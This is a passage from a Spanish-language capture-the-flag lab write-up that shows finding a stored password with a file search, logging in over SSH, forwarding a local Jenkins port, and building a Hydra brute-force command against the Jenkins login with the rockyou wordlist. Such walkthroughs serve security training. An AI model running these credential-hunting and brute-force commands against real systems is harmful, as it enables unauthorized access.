 Se encuentra el usuario `aubreanna`.

Se intenta realizar fuerza bruta con *Hydra*, pero sin éxito.

Se procede a realizar una búsqueda de archivos.

`find / -name *.txt 2>/dev/null`

![[Pasted image 20250815101925.png]]

Se visualiza el archivo `/opt/wp-save.txt`.

![[Pasted image 20250815102100.png]]

Se encuentra la contraseña del usuario `aubreanna`.
### SSH

Se accede al servicio **SSH** con el usuario y contraseña encontrados anteriormente.

`ssh aubreanna@10.10.215.220`

![[Pasted image 20250815102302.png]]

Se encuentra en el directorio del usuario `/home/aubreanna` el archivo `jenkins.txt` y se visualiza.

`cat jenkins.txt`

![[Pasted image 20250815103457.png]]

Nos dan una pequeña pista, de por donde se puede realizar la escalada de privilegios.

### Privilege Escalation
#### Port Forwarding

Se realiza *Port Forwarding* con **SSH** para poder visualizar en la máquina local el servicio que esta corriendo de manera local en la máquina victima.

Se tiene que cerrar sesión en **SSH** o abrirse una nueva terminal.

`ssh -L 9090:localhost:8080 aubreanna@10.10.215.220`

![[Pasted image 20250815104246.png]]

`http://localhost:9090/`

![[Pasted image 20250815104320.png]]

Con *Burp Suite* se analiza la petición que se envía.

![[Pasted image 20250815114238.png]]
#### Hydra

Se procede a realizar bruta con *Hydra*.

`hydra -l admin -P /usr/share/wordlists/rockyou.txt localhost -s 9090 -f http-post-form '/j_acegi_security_check:j_username=admin&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password' -t 64`
